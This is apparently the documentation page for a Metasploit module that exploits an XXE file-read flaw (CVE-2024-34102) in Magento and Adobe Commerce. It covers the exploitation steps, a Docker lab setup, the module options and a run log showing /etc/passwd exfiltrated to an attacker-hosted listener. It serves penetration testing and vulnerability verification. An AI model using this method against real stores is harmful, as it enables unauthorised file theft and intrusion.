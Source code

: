 ## Vulnerable Application

### Description

An authenticated user can read arbritraty file from Magento Community edition version 2.4.0 to 2.4.3.
The vulnerability is due to the lack of input validation in the XML file. An attacker can exploit this
vulnerability by sending a specially crafted XML file to the target server. The attacker can read any file on the server.

On June 27, 2024, Adobe released a software update that addressed this vulnerability (CVE-2024-34102).

The following products are affected:

- Adobe Commerce: versions before:      2.4.7; 2.4.6-p5; 2.4.5-p7; 2.4.4-p8; 2.4.3-ext-7 ; 2.4.2-ext-7
- Magento Open Source: versions before: 2.4.7; 2.4.6-p5; 2.4.5-p7; 2.4.4-p8
- Adobe Commerce Webhooks Plugin: versions 1.2.0 to 1.4.0

### Exploitation

This module exploits the XXE vulnerability in Magento by following these steps:

- Creating a DTD File: This file includes entities that will read and encode `FILE`, then send it to your endpoint.

- Host the DTD File: Serve the dtd.xml file, accessible via HTTP `SRVHOST` on port `SRVPORT`.

- Craft the HTTP Request: Craft the XML payload which will include the DTD file hosted on your server.

- Execute a HTTP Request: Send the crafted XML payload to the target server.

- Capture the Exfiltrated Data: The exfiltrated data will be sent back to the attacker in a HTTP GET request and them saved in the loot.



### Setup

Create a `docker-compose.yml` file as below:

```yml
version: '2'
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'mariadb_data:/bitnami/mariadb'
  magento:
    image: docker.io/bitnami/magento:2
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  mariadb_data:
    driver: local
  magento_data:
    driver: local
  elasticsearch_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```


## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the Magento (Default: `/`).

### SRVHOST (required)

The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.

### SRVPORT (required)

The local port to listen on.

## Scenarios

### Docker container running Magento Community edition version 2.4

```
Module options (exploit/multi/http/magento_xxe_cve_2024_34102):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILE       /etc/passwd      yes       The file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    192.168.128.1    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST      localhost        no        HTTP server virtual host
```

```   
msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://192.168.128.1:8080/
[*] Sending XXE request
[*] Received request for DTD file from 192.168.144.4
[+] Received file /etc/passwd content
[+] File saved in: /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt

msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > cat /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt
[*] exec: cat /home/redwaysecurity/.msf4/loot/20240715171929_default_127.0.0.1_etcpasswd_069426.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
msf6 exploit(multi/http/magento_xxe_cve_2024_34102) > 
```
